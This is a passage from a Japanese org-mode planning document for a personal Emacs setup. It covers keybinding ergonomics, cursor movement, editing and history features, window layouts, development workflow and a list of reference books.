| 1 | 1 ストローク          | 片手のみで入力できる             | Prefix         | C-e     |
|   | 左手                  |                                  | Toggle Command | C-q     |
|---+-----------------------+----------------------------------+----------------+---------|
| 2 | 1 ストローク          | Ctrl を押す為、両手が必要        | Move Command   | C-n     |
|   | 右手 (両手)           | 編集時に利用する command         | Edit Command   | C-k     |
|---+-----------------------+----------------------------------+----------------+---------|
| 3 | 2 ストローク          | 素早く入力する必要がある command | Edit Command   | C-x C-k |
|   | 両手                  |                                  | Move Command   | C-c C-o |
|   | Modifier key 固定     |                                  |                |         |
|---+-----------------------+----------------------------------+----------------+---------|
| 4 | 2 ストローク          | 冷静に入力する必要がある command |                | C-x k   |
|   | 両手                  |                                  |                | C-c i   |
|   | Modifier key リリース |                                  |                |         |
|---+-----------------------+----------------------------------+----------------+---------|
| 5 | 2 ストローク          | 片手のみで入力できる             |                | C-x C-f |
|   | 左手のみ              |                                  |                | C-c C-w |
|   | Modifier key 固定     |                                  |                |         |
|---+-----------------------+----------------------------------+----------------+---------|
| 6 | 2 ストローク          | 片手のみで入力できる             | kill-buffer    | C-x f   |
|   | 左手のみ              | 入力ミスを防ぎたい command       | kill-emacs     | C-c w   |
|   | Modifier key リリース |                                  |                | C-x c   |
|---+-----------------------+----------------------------------+----------------+---------|

*keyboard img*
- [[file:~/.emacs.d/etc/data/emacs_ctrl_keyboard_ja.png][Ctrl]]
  Ctrl 押下時の key の押しやすさを点数下
  10 点満点の減点方式
  space が一番大きい key であり押しやすい
  enter も大きい key であり小指で押すが比較的押しやすい。
  押しやすい指は親指、中指、人差し指、薬指、小指の順である。
  大体この指の順と ホームポジションを基準にして減点している。

- [[file:~/.emacs.d/etc/data/emacs_alt_keyboard_ja.png][Alt]]

**** 5.2. Repeat
**** 5.3. Chord

- Only View mode

**** 5.4. Hold
**** 5.5. Mouse

- プレゼン用に使う。
- 右クリックでプレゼン用のコマンド表示
  + 拡大／縮小
  + 色の変更

***** Avoidance
**** 5.6. Maintenance

[[#Keybind%20Maintenance][Keybind Maintenance]]

**** 5.7. Space as ctrl
	 http://www.emacswiki.org/emacs/MovingTheCtrlKey
	 https://gitorious.org/at-home-modifier/pages/Home
	 https://github.com/benhansenslc/BigCtrl
*** 7. Cursor Move
   :PROPERTIES:
   :CUSTOM_ID: Cursor Move
   :END:

最速の移動がスピードコーディングの肝となる。
目で見ているところへ移動が一番理想的

- linum-mode で 4 行ずつに色を付け C-u C-k で移動する。
  C-u を押すとカーソル位置から基準に上下の色を消してい
  く。論理行も考慮する必要あり。

- 論理行で移動

- 色で移動

- [[#point][point history]]

**** 6.1. check point

- save した位置を記録
  fringe に表示

- 最後に編集した位置へ移動

- 位置のレジスタ

- bookmark bm.el

**** 6.2. keyboard rate

Repeat 速度 を変更

**** 6.3. Each char or line move

- 長押しで each char から each word に変換
  20 回 char move してから each word に

**** 6.4. Each word
**** 6.5. Each symbol
**** 6.6. Sequential Move

連続した移動

- Sequential Backward
  line の indent 先頭に移動。
  indent の先頭なら line の先頭に移動。
  line の先頭で Column が記録されていれば Column を Clear 。
  line の先頭で Column が記録されていなければ window の先頭に移動。
  window の先頭なら buffer の先頭に移動。
  buffer の先頭なら元の位置へ移動。
  univarsal-argument 4 で元の位置へ移動。
                     8 で line の先頭へ移動
                     12 で window の先頭へ移動。
                     16 で buffer の先頭へ移動。

- Sequential Forward
  sufix coment があればコメントを無視した line の末尾に移動。
  現在のポイントがコメントを無視した末尾なら window の末尾に移動。
  window の末尾なら buffer の末尾に移動。
  buffer の末尾なら元の位置へ移動。
  univarsal-argument 4 で元の位置へ移動。
                     8 で line の末尾へ移動
                     12 で window の末尾へ移動。
                     16 で buffer の末尾へ移動。

**** 6.7. move bind now

- 利用中
"C-j"
"C-k"
"C-l"
"C-n"

"M-j"
"M-l"

"C--"
"C-h"

"C-M-k"
"C-M-n"

----
- 検討中
"M-k"
"M-n"
"M-h"
"M--"

"C-M-j"
"C-M-l"
"C-M--"
"C-M-h"

----

*** 8. Editing
    :PROPERTIES:
    :CUSTOM_ID: Editing
    :END:

**** 7.1. 範囲 (region, narrowing)
***** 7.1.1 Mark
- mark-word
  mark-sexp
  mark-paragraph
  mark-defun
  mark-page
  mark-whole-buffer


- mark-ring, Global Mark Ring

- region の復元

- region したまま buffer の最後 で next-line しても region を解除させない

- word symbol string line list defun paragraph window whole-buffer color


****** Shift Selection
- space as control

****** Expand region

command 連打で状況に応じて region を広げる。
  word の先頭以外なら word を region
  word の先頭なら space x 2 で symbol 全体を region (global-set-key)
  word symbol ""() 内 ""() 外 line defun window buffer
  overlay の利用も検討

Shift + Space = cursol から end-of-line まで region

****** Multi region

region を複数 選択しそれぞれにコマンドを実行する。
http://www.emacswiki.org/emacs/ApplyFunctionOnMultipleRegions

- 数行 ずつ region する。

- 重複する行を region する。

****** Rectangle
- sense-region.el
- rectangle のまま forward-word などの移動コマンド
- rectangle expand symbol paragraph 内 defun 内

***** 7.1.2 Narrowing

- <number> line ずつ narrowing する。

***** 7.1.3 Protect region

copy kill を block する。
block したところは overlay 。
block した word,symbol を含めてコピーした場合、 block した
範囲を取り除いて kill-ring する。
また、 font-lock 別でも block できるようにする。

**** 7.2. 対象 (word symbol paragraph)
***** 7.2.3. Search

- 検索時の大文字小文字の区別
- 検索履歴による再検索

****** 正規表現 template
****** Regexp
****** Fuzzing Match
-  曖昧検索 ― approx-search

****** Across file

**** 7.3. 操作 (delete copy paste etc)

- copy と kill を統合
  copy コマンドした後にもう一度同じコマンドを実行したら 以前
  の範囲を kill する。

***** 7.3.1. Copy

Clipboard kill-ring に挿入

- Copy Without Selection

- Copy whole line

- Edit Copyed text

****** Clipboard Action

clipboard を監視し文字列によってアクションを起す。
clipboard に入れられた文字数、行数をみる。

***** 7.3.2. Killing, Deleting

clipboard: kill した時のみ挿入
kill-ring: すべて挿入

統合
Minibuffer で削除したものは clipboard に挿入しない。
kill-ring には挿入。

- 行頭・行末の空白文字を削除
- 行単位で間引く
- [[#kill-ring][kill-ring history]]

- delete-blank-lines

- kill した text の位置、 buffer を記録。

- whitespace
  + fix-whitespace just-one-space
    コマンド統合。もし whitespace が 2 つあれば 1 つにし、
    1 つであれば word を join する。

- toggle delete command

C-u command = shift backspace
and lastcommand memq delete command backspace repeat shift backspace

- delete prefix

delete prefix key を押した後の移動コマンドで削除

***** 7.3.3. Paste, Yanking

- paste は全て clipboard から行う。
- paste したら indent を自動で行う
- overwrite paste
- 貼り付け位置を先に指定 ― fcopy


****** duplicate

+ Moccur で line, defun, paragraph を duplicate する。
+ duplicate-line を yasnippet で使える用にする
+ duplicate-line で yank-pop する

***** 7.3.4. Replace

****** Rotate text

*Rotate text command*
|------+-----+-------|
| Ture | <=> | False |
| Yes  | <=> | No    |
| t    | <=> | nil   |
|------+-----+-------|


******* Spell check
******* 誤った文字順の修正
****** Grammar checking
****** 大文字 <=> 小文字

- 大文字 <=> 小文字

  + Cursor 下を toggle

- 小文字 => 大文字

  + 文字の先頭を大文字にする。

    * 1Word の先頭を変換
    * region があれば region 内を変換
    * prefix 付き [保留]
    * eq last-command であれば小文字にする。

  + symbol 全体を大文字にする。

    * cursor 位置どこでも symbol 全体を大文字にする。
    * region があれば region 内を全て大文字にする。
    * prefix 付き [保留]
    * eq last-command であれば小文字にする。

- 大文字 => 小文字

  + 文字の先頭を小文字にする。

    * 1word の先頭を変換
    * region があれば region 内を変換
    * prefix 付き [保留]
    * eq last-command であれば大文字にする。

  + symbol 全体を小文字にする。

    * cursor 位置どこでも symbol 全体を小文字にする。
    * region があれば region 内を全て小文字にする。
    * prefix 付き [保留]
    * eq last-command であれば大文字にする。

- downcase-word, upcase-word, capitalize-word,
  downcase-region, upcase-region

****** 全角 <=> 半角

- 全角 <=> 半角

  + Cursor 下を toggle

- 全角 => 半角

  + Cursor 位置どこでも symbol 全体を半角にする。
  + region があれば region 内を全て半角にする。
  + prefix 付き [保留]
  + eq last-command であれば全角にする。

- 半角 => 全角

  + Cursor 位置どこでも symbol 全体を全角にする。
  + region があれば region 内を全て全角にする。
  + prefix 付き [保留]
  + eq last-command であれば半角にする。

****** 改行コード [保留]
****** tab <=> space
****** Header

書込み時に自動で header を更新

***** 7.3.5. Fixing
****** Spelling
****** Transpose
- char
- word
- symbol
- line
- function
- reverse-words

- イコール記号「=」の左辺と右辺を一括して入れ替える
- region を起点にして入替
  + "foundSpace == True"
    "True == foundSpace"
    "==" に region を設定した場合

- multi-region を使って 2 つの region を入替
- rectangle

***** 7.3.6. Parentheses

- 閉じ括弧で indent
- 自動で対応した括弧を挿入

***** 7.3.7. Numbering
****** Renumber

連番挿入

****** Increment Number

region 内の 数字を Increment
region がなければ buffer の数字を increment

****** Visible Number

数字４桁づつにコンマを挿入 "1,000"

***** 7.3.8. Sort

region 内を Sort
list 内を Sort
rectangle 内を基準に line を Sort

- alphabet
- number
- 五十音順
- 長さ順
- reverse

***** 7.3.9. Comments
****** Toggle Comment Uncomment
****** Header / Document

- find-file file を新規作成時に template を挿入
  + file name
  + Copyright
  + Commentary
  + change log
  + (defvar auto-document-version "$Id: auto-document.el,v 1.16 2010/05/04 09:00:52 rubikitch Exp $")

- save-before-file file 名 などを update
  header2.el

- 関数名 変数 の index を header に挿入

***** 7.3.10. Alignment

- 文章を右揃え・中央揃えに整形する
- 空白文字で分割して整形。各フィールドは左揃え。
- 空白文字で分割して整形。各フィールドは右揃え。
- 空白文字で分割して整形。ダブルクォートで囲まれたフィールドをサポート。各フィールドは左揃え。
- 指定したセパレータで分割して整形。各フィールドは左揃え。
- 指定したセパレータで分割して整形。各フィールドは右揃え。
- 行末のバックスラッシュの位置の整形。シェルスクリプト用。
- 複数の変数を一度に宣言していたら、その宣言を 1 行ずつの変数宣言に変換する。
- 小数点の位置で数値を整形。

****** Indent

***** 7.3.11. Insert template
****** Date

- 日付挿入

****** File name

- my-insert-file-name

****** License
****** autoinsert
****** Snippet Code
******* yasnippet
******* function or class source code
****** auto-complete

ac-sources kill-ring

****** Regexp

anything などで説明付きの正規表現を選んで insert する。
yasnippet 化する。

*正規表現 template*
|-------+--------|
| thing | regexp |
|-------+--------|
| ipv4  |        |
| ipv6  |        |
|-------+--------|

***** 7.3.12. 上書きモード（ Ovwrt モード）
*** 9. History
   :PROPERTIES:
   :CUSTOM_ID: History
   :END:

徹底的に履歴を作る。
履歴から統計をとりやすくし改善に役立てる。

**** 8.1. Running Time
    :PROPERTIES:
    :CUSTOM_ID: Running time
    :END:

起動、終了時刻を記録。
統計に使えるようにする。
[[#Emacs.log][Start & Exit log]]

**** 8.2. Undo Redo

- undo redo を file ごとに disk に保存する。
  undohist.el

*<file-name>_undo.el*
|-----------+------------------------|
| File name | <file-name>_undo.el    |
| Location  | ~/.emacs.d/var_e/undo/ |
|-----------+------------------------|
| Format    |                        |
|-----------+------------------------|

***** region 内のみ undo
***** save した時点を一句切とし bookmark の様に其の時点まで undo, redo する。
***** 編集履歴の見える化

- undo-tree

**** 8.3. Kill-ring
    :PROPERTIES:
    :CUSTOM_ID: kill-ring
    :END:

- auto-save kill-ring-save
kill ring を crash 対策で disk に保存
[[#var_e][kill-ring-save.el]]

- kill-ring.log
kill-ring をすべて保存
[[#Emacs.log][kill-ring.log]]

保存された kill-ring から文字列を検索

**** 8.4. Command
***** Define Macro
****** マクロの編集
****** マクロリング
****** マクロにキーを割り当てる
****** macro region
http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=macros-plus

**** 8.5. Find-file
    :PROPERTIES:
    :CUSTOM_ID: find-file-history
    :END:

[[#Emacs.log][Open Save Close log]]

- recentf
  + timestamp

- Journal

**** 8.6. Window
    :PROPERTIES:
    :CUSTOM_ID: window history
    :END:

- undo の見える化
  visual 的に undo する。
  artist mode で作成されたような線で書かれた window の
  配列を anything のようなインターフェースで選択し undo
  する。

**** 8.7. Point
    :PROPERTIES:
    :CUSTOM_ID: point
    :END:

- Saved file cursor point

- 迷子対策
  undo redo point
  もっとざっくりと移動したい
  line ごとで移動
  若しくは、可視化したい
  undo redo point の間、 overlay する。
  最後の region に移動

**** 8.8. Help Document
[[programming%20document%20history][Programming Document]]

**** 8.9. Minibuffer complete history
    :PROPERTIES:
    :CUSTOM_ID: minibuffer history
    :END:

- zsh 風
- 先頭文字の一致する M-x ヒストリを辿る
- session.el

**** 8.10. Changelog
- Subversion と連携
  Changelog に記載時に header, Changelog に記載。そして、
  commit log にも反映できるようにする。

- Changelog template

*** 10. Display
   :PROPERTIES:
   :CUSTOM_ID: Face
   :END:

速度、機能優先。
見た目は重要だが最重要ではない。

**** 9.1. Frame

デュアルディスプレイでない限りは Frame は 1 つ以上作らない

- Toggle bar
  menu-bar scroll-bar vertical-scroll-bar をまとめて toggle
  http://www.emacswiki.org/emacs/FullScreen


***** 新しいフレームの作成
***** Frame の移動

Frame の表示位置をコマンドで切り換える
テンキーの配列を利用する。

***** Frame 削除と最小化
***** 最大化

Frame の title を最大化時は nil にする。
最大化時、 frame の縁をなくす

- windows emacs-fullscreen.exe

***** 透過

- 一時的に全ての文字を消す。
  透過モードでバックグラウンドの文字を見るため

**** 9.2. Window
;; line を切り捨て表示
(setq truncate-lines nil)


***** Split

- 移動先に window がなければ split して作成。
- 分割禁止 window 設定
- 決った形に分割
  + 使用状況にあわせて切替
  + follow-mode
  + view-mode
  + coding-mode
  http://www.bookshelf.jp/soft/meadow_30.html#SEC414

***** Delete

- 意図した window を削除。
  番号を選んで削除。
- 現在の window を削除
- 他の window を削除
- 他の全ての window を削除

***** Change

- 意図した大きさになるのが理想
- acejump のようにコマンド後に overlay で目標となる位置
  を表示して選ぶ。拡大／縮小する時に座標を表示する。
  中心などがわかりやすいようにする。
- interactive に拡大／縮小
- mouse で拡大／縮小
- 横幅を 80 にする。

***** Translate Window

- 容易に意図した window のみを入替
- 番号を選択して入替
- interactive に入替
- window buffer の入替
  + http://www.emacswiki.org/emacs/ToggleWindowSplit

***** Popup

- 特定の window を popup で表示する。

***** Undo Redo

[[#window%20history][Window Undo Redo]]

***** Handling
***** Multi window

- multi cursor で編集
  複数の window で同時に編集
  http://www.emacswiki.org/emacs/RecursiveEditPreservingWindowConfig

**** 9.3. Scrolling

- Recenter
- cursor の位置を window の top へ scroll
- 他の window を scroll
- http://www.emacswiki.org/emacs/Scrolling
- page 分割があれば page に合せる。
- what-page
- Horizontal scrolling

**** 9.4. Fringe
- 行番号を左に表示
  4 行ずつに色を付ける。
- 行の折り返し表示を変更する
**** 9.5. Mode-line

| Current Line | Max Line | , | Column | Coding Style | Buffer name | Modify | Remote | minor mode |

- 状況に応じて mode-line の表示を変える。
  余り表示の必要のない buffer には表示を最小限にとどめる。
  - mode-line を隠す

- auto-save, vc の状況を表示

- Color

  + view-mode なら赤系
  + 書込み可能なら緑系
  + 編集されたら文字の色を変える。

- history 情報表示
  + undo redo
  + winner undo redo
  + point undo redo
  + last-command

- 文字数を数える

- Minor mode 表示

  + 4 文字以内が適当

- notePC ならバッテリーの残量を表示

- 時間の表示を考える (締切などを考慮して)

- ファイル名がかぶった場合にバッファ名をわかりやすくする。

- 編集すれば mode-line-buffer-id の色を変更。

- universal-argument を count する。

**** 9.6. Cursor

- Change cursor 日本語

- x-stretch-cursor t
  tab 上にある時に cursol がのびる。

**** 9.7. Font

| Main English Font  | Ricty  |
| Main Japanese Font | Ricty  |
| Sub English Font   | mono   |
| Sub Japanese Font  | Gothic |

.emacs.d/ に ricty があるのでそこから読むようにする。
ricty の i l 1 を見間違えないように改造する
*Message* に使用 font を記載。

***** フォントの横幅を調節する
***** 文字サイズ 変更
text-scale-increase text-scale-decrease

**** 9.8. Syntax Color

[[info:emcas%2018.8%20Font%20Lock%20mode][info emacs]] 18.8 Font Lock mode
info emacs 18.9 Interactive Highlighting

     (add-hook 'c-mode-hook
               (lambda ()
                (font-lock-add-keywords nil
                 '(("\\<\\(FIXME\\):" 1 font-lock-warning-face t)))))

   To remove keywords from the font-lock highlighting patterns, use the
function `font-lock-remove-keywords'.  *Note Search-based
Fontification: (elisp) Search-based Fontification.



***** フォントロックのフェイスで動作を変える

*** 11. Help
**** Documment ref
- langhelp http://jp.rubyist.net/magazine/?0017-langhelp

**** Algorithm
**** man ページの表示
**** コード表 表示
**** python document
- import inspect

**** Info

- tab 化
- open link other buffer

*** 12. Develop
   :PROPERTIES:
   :CUSTOM_ID: Develop
   :END:
- コーディング
  スピード、正確さは相容れない関係である。
  スピードを優先すればコードは雑になり、正確さを優先すればス
  ピードが犠牲になる。
  この２つを両立する方法を考える。
  徹底的に自動化。
  テンプレートなどを使い入力補助をすることでスピードと正確さ
  を得る。
  其の為に、 PC のスペック、 HDD 、の容量を十分に取る必要がある。
  データベースを作成する。
  SSD を推奨。
  スピード、正確さ と 場所、お金のトレードオフである。
  また、締切前の 5 分と休日の 5 分とは価値が違う。
  この貴重な 5 分を手に入れる為の下準備に時間をかける必要がある。

**** Base Develop

- 操作性を統一
  help document などを参照する共通する command などは 同じ keybind にする。

- オフラインコーディング

- リポジトリと連携

- 現在の関数名を常に表示する

- 関数のソースを挿入 関数のソースがあればソースを辿ってソー
  スコードを挿入する。

***** Lab
- テスト環境を整える。
- many buffer
- many directory
- many file
  ランダムな文字列で構成される任意サイズのファイルを複数個生成
  プログラムのテストなどで、任意サイズのファイルが必要な場合
  や、ランダムな文字列が大量に必要な場合などに活用。
  1. テキストデータ (ランダムな英数字のみで構成)
  2. バイナリデータ (制御文字も含むランダムなバイナリデータで構成)
  3. ゼロ (NULL 文字のみで構成)

- sample text
| English  | William Shakespeare |
| Japanese | 夏目漱石            |
| Eng & Ja |                     |

***** project 管理
eproject
test directory 作成
directory
project ごとの TODO 管理
project ごとの coding style
http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=pbf
http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=indent-tabs-maybe
- source に TODO: を書き emacs で管理する
  project ごとに org file を作成する。
  TODO: を insert するコマンド
  TODO: を before-save で拾って buffer で管理する。
  行数と file 名の link を貼る。
  http://d.hatena.ne.jp/shunsuk/20100612/1276345829

- directory
  + Docs
  + Media
  + Sourccce
  + Obj
  + Bin
  + Test

- ディレクトリごとに設定ファイルを用意する

  - ローカル変数をディレクトリ単位で設定
    http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=dirvars

- find-file in project
  http://emacswiki.org/emacs/FindFileInProject

***** Policy

****** 変数

- 変数名を命名規則に従う。

****** 関数

- 関数は、処理を行うか、応答を返すかの
  どちらかを行うべきで、両方を行ってはなりません。
  関数の第一規則は、小さくせよ。第二の規則は、さらに小さくせよ、です。
  20 行を超えるような関数はほとんどあってはなりません。

****** 条件文

- 条件文は if a == 1: と書かない。 この場合 if 1 == a: とする。
  if a = 1: と打ち間違った場合、エラーが表示されるようにする。

***** Default Coding Style

- プログラミング規約 の確認、制定 syntax rule に反映。
  規約用の変数を定義した関数を作成し add-hook で設定できるよ
  うにする。関数名の例、
  "emacs_lisp_codingstyle"
  コーディング規約を定める目的は、主に複雑さを緩和することである。
  また、簡単に参照できるようにする。

****** タブ幅
****** タブをスペースに変更
****** パラグラフのインデント
***** Change Log
***** Tags
***** Documentation Lookup
- info
- man

***** Comments
***** Completion

***** Window
- Project Explorer
- Console
- Task
- Outline
- Bookmark
- History
- Document
- Web
#+BEGIN_EXAMPLE
Coding
+---------------------------------------------------------------------------+
|-------------- tab -----------------|                                      |
|                                    |                                      |
|                                    |                                      |
|      Source Code                   |    Web, Document, other source       |
|                                    |                                      |
|                                    |                                      |
|                                    |                                      |
|                                    |                                      |
|                                    |                                      |
|                                    |                                      |
|                                    |                                      |
|                                    |                                      |
|                                    |                                      |
|                                    +--------------------------------------+
|                                    |--------------- tab ------------------|
|                                    |   outline,Bookmark,History           |
|                                    |   Project explorer                   |
|------------------------------------+   Task,                              |
| +POPUP                             |                                      |
|   console, anything                |                                      |
|                                    |                                      |
+------------------------------------+--------------------------------------+

Code reading

+------+--------------------------------+-----------------------------------+
|      |                                |                                   |
|  O   |                                |                                   |
|  U   |    source code                 |    follow-mode                    |
|  T   |                                |                                   |
|  |   |                                |                                   |
|  L   |                                |                                   |
|  I   |                                |                                   |
|  N   |                                |                                   |
|  E   |                                |                                   |
|      |                                |                                   |
|      |                                |-----------------------------------+
|      |                                |                                   |
|      |                                |    documment                      |
|      |                                |                                   |
|      |                                |                                   |
|      +--------------------------------+                                   |
|      |                                |                                   |
|      | +POPUP                         |                                   |
|      |   anything                     |                                   |
|      |                                |                                   |
+------+--------------------------------+-----------------------------------+

Over view

+-----+-----+-----+-----+-----+-----+-----+-----+-----+-----+-----+-----+---+
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
|     |     |     |     |     |     |     |     |     |     |     |     |   |
+-----+-----+-----+-----+-----+-----+-----+-----+-----+-----+-----+-----+---+

Debug

#+END_EXAMPLE

**** Cycle

この流れを自動化

***** Code Reading
source を一つに纏め word などで俯瞰する。
  text-scale-increase
  follow-mode を使って実現
changelog を効率よく読む
変数の状態表示
関数が定義されている file と line number の表示
document 表示
coding の際に重くなる支援機能は view-mode で切り換える。

****** Jump Junction

- cscope
- etags http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=etags
****** Document
******* 簡易表示

# Document 統合計画
# 番号順に辿っていく

1) ElDoc

Source の Document を minibuffer に表示。

2) Help Document

ElDoc に表示されている symbol を Help
Source の Documment を表示。
symbol-at-point で一致すれば direct に表示。
なければ、 anything 起動。
Umemo で書込み。訪問回数記録。
Umemo には example code を自動で残す。
Info への Link
http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=mode%20info
Source への Link (file の full path を表示)
web 検索ページへの Link

3) Cheat Sheet

org
pdf
image
html

******* 詳細表示

1) HTML

- Offline
- Online
Default
  + English
  + Japanese

2) Info

Symbol-at-point と anything-c-source-info は別コマンドに
Default は English で検索。
見ている Node から English と Japanese を toggle 。
Info に書込み。
Info node 訪問回数記録。
  + English
  + Japanese

3) rfc

Default は英語で表示。
見ている txt から 英語 と日本語を 切り換える。
rfc に memo を残す。
rfc 訪問回数記録。
定期的に update
  + English
  + Japanese
http://www.emacswiki.org/emacs/Irfc

******* Document History
       :PROPERTIES:
       :CUSTOM_ID: programming document history
       :END:

- info
- help
- 訪問回数
- timestamp

******* Search Document

apropos の様に Document の中から使えそうな関数、変数、 Class を探す。

****** symbol list
- 関数一覧 http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=etags
***** Edit Source
****** Code navigation
- 自動補完
- リアルタイムにプログラミング言語の文法チェックをする
****** snippet
- 雛形を用意し file 作成時に対話的に選ぶ。選び終った時点で 3 割
  程コーディングが済んでいると望ましい。
- 過去に書いた code などをデータベース化。さらに参照しコピペし
  て使えるようにする。
  言語
  場所
  サブフォルダ
  説明
  tag
  moccur
  license
# コード スニペットを使用すると開発時間が短縮されるため、
# アプリケーションの構築時にスニペットが頻繁に再使用されることがあります。
# そのため、スニペットに保存されるモデル コードは、
# セキュリティの問題に対処するようにデザインされている必要があります。
# 開発チームでは、一般的なセキュリティ標準に準拠しているかどうかについて、
# コード スニペットをレビューする手順を確立してください。

- Online search
****** Changelog
自動生成
file の changelog
project なら project 全体の changelog
svn の comment に自動追加。
http://www.emacswiki.org/emacs/ChangeLog
****** refactoring

- 可読性を上げること

- ログ出力などで結果を分かりやすく表示すること

- save する前に linter など規則に沿った code に整形する。

******* 対応方法

- moccur-edit
****** Interpreter

- 入力内容を記録保存

***** Compile build

- compile のエラーログを保存
  エラーログの link を生成
  簡単な compile
  http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=yacompile
***** Run
***** Debug

****** コンパイルエラー
****** ランタイムエラー
****** 論理エラー
***** Profile
- 速度

**** Programming Languages

***** C C++
****** Coding Style
***** Emacs Lisp
****** Coding Style
****** Interpreter
******* scratch

- auto-save する crash に備える
- scratch で書いた内容を一つの file にまとめる。
http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=save%20scratch
http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=delete%20scratch


***** Python
****** Coding Style
***** Assembly
****** Coding Style

*** 13. Advanced Features

**** Maintenance mode

- 何ども再起動しなくてよいものにする。

- crash したらクラッシュ原因を trace できるようにする。

***** Compile
***** Package 管理

- Check upgrade elisp

- load される lisp を調べる which.el
  http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=which%20lisp

- 使ってない elisp list up

- Conflicting Libraries
  http://www.emacswiki.org/emacs/ConflictingLibraries

***** Keybind
   :PROPERTIES:
   :CUSTOM_ID: Keybind Maintenance
   :END:

- 使ってない key bind を表示
  (describe-unbound-keys 5)
- keylog

***** 統計

- crash の頻度、間隔を測る
- comand
- keyloger
- 文章の出現頻度をカウント

***** Profile
http://www.emacswiki.org/emacs/ProfileDotEmacs
**** Registers
- better-registers.el http://www.emacswiki.org/emacs/better-registers.el
  Position
  Text
  Rectangle
  Configurations
  Numbers
  Files
  Bookmarks

**** Remote
    :PROPERTIES:
    :CUSTOM_ID: remote emacs
    :END:

    - Remote Machine file DB
      http://www.emacswiki.org/emacs/HoboMode
    - SSH
      http://emacswiki.org/emacs/TrampMode
    - FTP
      http://www.emacswiki.org/emacs/AngeFtp

      http://www.emacswiki.org/emacs/RemoteEmacs

**** Network
***** proxy
***** Web Browser
***** tramp
***** ftp
**** Shell
- scratch like の shell comand buffer を作成。
- zsh history anything
  http://d.hatena.ne.jp/tarao/20100429/1272509893

**** Printer
**** Scheduler
***** 時間管理ツール
***** カレンダの表示
***** ダイアリ機能
**** elisp で gui を自動操作。 auto hotkey のようなもの。
**** いろんなものを階層化して表示 ― ee
- http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=ee

**** こそっとエディタ
- minibuffer 並に小くし透過する。
**** 書き起こし
**** minimap
- http://www.emacswiki.org/emacs/MiniMap

**** Hex 入力補助
     - \x01\x02\x00

**** subdir 一覧を得る
     http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=dirtree
	 http://www.bookshelf.jp/soft/meadow_25.html#SEC305

*** 14. Negative list
- chord で誤って command が実行されてしまう。
*** 15. Reference
**** 構成を考える上で参考にしたもの

cf. - [[http://www.bookshelf.jp/soft/meadow_toc.html]]
    - [[info:emacs][emacs info]]
    - [[info:elisp][elisp info]]
    - [[http://d.hatena.ne.jp/rubikitch/20100717/emacsbook][Emacs テクニックバイブル ～作業効率をカイゼンする 200 の技～』]]
    - [[http://d.hatena.ne.jp/rubikitch/20111120/elispbook][Emacs Lisp テクニックバイブル　～真髄を知る Lisp の掟～]]
    - [[http://gihyo.jp/magazine/wdpress/plus/978-4-7741-5002-4][Emacs 実践入門―思考を直感的にコード化し，開発を加速する]]
    - [[http://www.oreilly.co.jp/books/9784873112770/][入門 GNU Emacs 第 3 版]]
    - [[http://www.oreilly.co.jp/books/4900900931/][GNU Emacs デスクトップリファレンス]]
    - [[https://gihyo.jp/dp/ebook/2012/978-4-7741-5131-1#content][Vim テクニックバイブル　−作業効率をカイゼンする 150 の技]]
    - [[http://www.oreilly.co.jp/books/4873110831/][入門 vi 第 6 版]]
    - [[http://gihyo.jp/book/2010/978-4-7741-4396-5][vi/Vim コマンドポケットリファレンス]]

***** vi
1 章 テキストエディタ
        1.1 ファイルのオープンとクローズ
        1.2 編集をセーブせずに終了するには

2 章 基本的な編集作業
        2.1 vi のコマンド
        2.2 カーソルの動かし方
        2.3 簡単な編集
        2.4 テキストを入力するいろいろな方法
        2.5 J による 2 行の連結
        2.6 vi の基本コマンドのまとめ

3 章 素早くジャンプする方法
        3.1 画面単位でのジャンプ
        3.2 テキストブロック単位でのジャンプ
        3.3 検索によるジャンプ
        3.4 行番号によるジャンプ
        3.5 vi の移動コマンドのまとめ

4 章 vi の中級コマンド
        4.1 コマンドの組み合わせ
        4.2 vi の起動オプション
        4.3 バッファの活用
        4.4 位置のマーク
        4.5 もっと高度な編集作業について
        4.6 vi のバッファ/ マーク関連コマンドのまとめ

5 章 ex エディタ
        5.1 ex コマンド
        5.2 ex による編集
        5.3 ファイルのセーブと終了
        5.4 別のファイルの読み込み
        5.5 複数ファイルの編集

6 章 一括置換
        6.1 置換の確認
        6.2 文脈依存置換
        6.3 パターンマッチングルール
        6.4 パターンマッチングの実例
        6.5 パターンマッチングの完全マスター

7 章 vi の高度な使い方
        7.1 vi のカスタマイズ
        7.2 UNIX コマンドの実行
        7.3 キー入力節約用コマンド
        7.4 ex スクリプトの使い方
        7.5 ソースコードの編集

8 章 vim - vi Improved
        8.1 作者と歴史
        8.2 おもなコマンドライン引数
        8.3 オンラインヘルプとその他のドキュメント
        8.4 初期化
        8.5 マルチウィンドウ編集
        8.6 GUI インターフェイス
